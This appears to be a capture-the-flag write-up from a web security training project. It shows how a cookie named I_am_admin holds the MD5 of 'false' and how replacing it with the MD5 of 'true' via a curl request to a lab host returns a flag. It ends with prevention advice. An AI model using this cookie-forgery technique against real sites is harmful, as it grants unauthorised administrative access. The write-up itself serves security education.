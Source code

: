 # Description

By looking at the data storage in the used browser we see that the website uses
a cookie with all sent requests called I_am_admin

```
Cookie: I_am_admin=68934a3e9455fa72420237eb05902327
```

# Attack

It appears that the it's value is hashed with md5 according to **https://crackstation.net**.

68934a3e9455fa72420237eb05902327 - false - Possible algorithms: MD5

```bash
*[main][~/goinfre/projects/darkly/email]$ md5 -s "false"
MD5 ("false") = 68934a3e9455fa72420237eb05902327
*[main][~/goinfre/projects/darkly/email]$ 
```

As we see the hashed value is false means that the user browsing the website is not admin

Let's try and change the value to true and see whats goin to happen.

Using md5 command to hash the value true 

```bash
*[main][~/goinfre/projects/darkly/email]$ md5 -s "true" 
MD5 ("true") = b326b5062b2f0e69046810717534cb09
*[main][~/goinfre/projects/darkly/email]$ 
```

Now using this value to send a request to any route and see what's going to happen. We are goin to use curl

```bash
*[main][~/goinfre/projects/darkly/email]$ curl  --cookie "I_am_admin=b326b5062b2f0e69046810717534cb09"  http://10.12.177.91/             
<script>alert('Good job! Flag : df2eb4ba34ed059a1e3e89ff4dfc13445f104a1a52295214def1c4fb1693a5c3'); </script><!DOCTYPE HTML>
```

# Prevention

- **Use Stronger Authentication:** MD5 is a weak hashing algorithm that is susceptible to collision attacks. Use stronger and more secure hashing algorithms like SHA-256 or bcrypt to hash sensitive values like authentication tokens.

- **Salted Hashing:** Implement salted hashing, which involves adding a unique random value (salt) to each hash. This makes it much more difficult for attackers to precompute hashes for common values.

- **Session Management:** Use proper session management techniques, such as using secure, random session tokens instead of predictable values like "true" or "false".

- **HttpOnly and Secure Flags:** When setting cookies, use the HttpOnly flag to prevent JavaScript from accessing the cookie and the Secure flag to ensure cookies are only transmitted over secure (HTTPS) connections.

- **Tokenization and Authorization:** Instead of relying solely on a single cookie value for authentication, use tokenization techniques and proper authorization checks to validate a user's permissions.

- **Multi-Factor Authentication (MFA):** Implement MFA to add an extra layer of security by requiring users to provide additional information beyond just a cookie or password.

- **Regular Security Audits:** Conduct regular security audits and vulnerability assessments to identify and address potential security weaknesses.

- **Educate Developers:** Ensure that your development team is educated about secure coding practices and common vulnerabilities like improper use of authentication tokens.

